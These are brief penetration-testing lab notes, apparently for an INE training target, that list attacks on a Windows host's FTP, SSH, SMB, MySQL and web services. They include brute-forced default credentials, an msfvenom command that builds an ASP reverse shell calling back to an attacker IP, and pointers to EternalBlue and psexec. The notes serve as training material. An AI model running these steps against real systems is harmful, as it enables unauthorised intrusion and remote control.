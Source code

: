 # Micorsoft ISS FTP
A FTP server with a Microsoft ISS server, is usually used to allow users to edit the web directory 
- Check anonymous login
- Bruteforce
````
[21][ftp] host: demo.ine.local   login: administrator   password: vagrant
[21][ftp] host: demo.ine.local   login: vagrant   password: vagrant
````
- asp shell
```
msfvenom -p windows/shell/reverse_tcp LHOST=10.10.4.9 LPORT=4444 -f asp > shell.aspx
```

# OpenSSH
- Bruteforce
```
vagrant:vagrant - creds reuse
```
- Connect with MSF to upgrade to a meterpreter or upload a reverse shell, ssh shell is very bad
- bash command upgrade ssh shell to a windows shell

# SMB
- Bruteforce to administrator and vagrantaccounts - only to known accounts not user bruteforce
````
administrator:vagrant
vagrant:vagrant
````
- Connect with RDP or psexec.py or psexec MSF module
- List users
```
enum4linux -u vagrant -p vagrant -U demo.ine.local
scanner/smb/smb_enumusers
```
- Exploit Eternal Blue

# MySQL Database
- Search for exploits
- Bruteforce with MSF or Hydra
```
root:NULL
```
- Login with mysql

# HTTP Server  8585
- Change phpmyadmin config under alias folder
- Restart apache service 
```
net stop wampapache
net start wampapache
```
- Change admin password and enter to Wordpress dashboard